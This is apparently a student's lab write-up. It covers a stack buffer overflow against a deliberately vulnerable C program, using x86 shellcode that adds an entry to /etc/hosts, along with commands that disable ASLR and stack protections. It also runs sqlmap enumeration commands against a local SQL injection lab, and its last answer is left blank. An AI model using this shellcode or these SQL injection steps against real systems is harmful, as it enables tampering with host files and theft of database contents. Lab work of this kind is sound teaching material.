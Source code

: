 # Lab 1, 22110074, Nguyen Le Phuong Thu, INSE_02FIE

## Task 1: Software buffer overflow attack

Given a vulnerable C program

```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
 char buffer[16];
 strcpy(buffer,argv[1]);
 return 0;
}
```

and a shellcode in asm. This shellcode add a new entry in hosts file

```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```

**Question 1**:

- Compile asm program and C program to executable code.
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux.
  You are free to choose Code Injection or Environment Variable approach to do.
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:

### 1. Fire up docker-compose to run the docker conteiner `docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab` and then change working directory to the folder have this file

![image](lab1/img/run%20docker.png)

### 2. Compile with nasm and then link with ld to generate executable file

![image](/img/compile.png)

### 3. Dump to `test.o` to show information of this file

`objdump -d test.o`
![image](/img/objdump.png)

### 4. Get the hex string of shellcode

Run the script `for i in $(objdump -d test | grep "^ " | cut -f2);do echo -n '\x'$i; done; echo`
![image](/img/hex%20string.png)

### 5. Prepare for the lab environment

- Turn off OS's address space layout randomization `sudo sysctl -w kernel.randomize_va_space=0`
- Compile program with options to defeat stack protecting mechanism and code execution on stack `gcc lab1.c -o lab1.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`
![image](/img/prepare.png)

### 6. Stack frame 


![image](/img/stack.png)

> We have the byte of the buffer in this code is smaller than the byte of hex string of shellcode. So I use environment variables to exploit

### 7. Add shellcode to environment and get env address with C code

![image](/img/env.png)

### 8. Debug with gdb `gdb -q ./lab1.out`

![image](/img/gdb.png)

### 9. Find the address of env

`find /home/seed/seclabs/buffer-overflow/lab1`
![image](/img/find.png)

### 10. Run program in gdb with injecting argument

![image](/img/run.png)

## Task 2: Attack on the database of Vulnerable App from SQLi lab

- Start docker container from SQLi.
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup.

### 1. Change working directory to folder of SQli

![image](/img/sqli.png)

### 2. Fire up the docker-compose to create the docker-container set for this lab

![image](/img/build%20sqli.png)



### 3. Install sqlmap
![image](/img/sqlmap.png)


**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
To retrieve information about all available databases, use
'''
sqlmap -u "http://localhost:3128/vulnerable_page.php?id=1" --dbs
'''

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
To list tables in a specific database
'''
sqlmap -u "http://localhost:3128/vulnerable_page.php?id=1" -D database_name --tables
'''

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
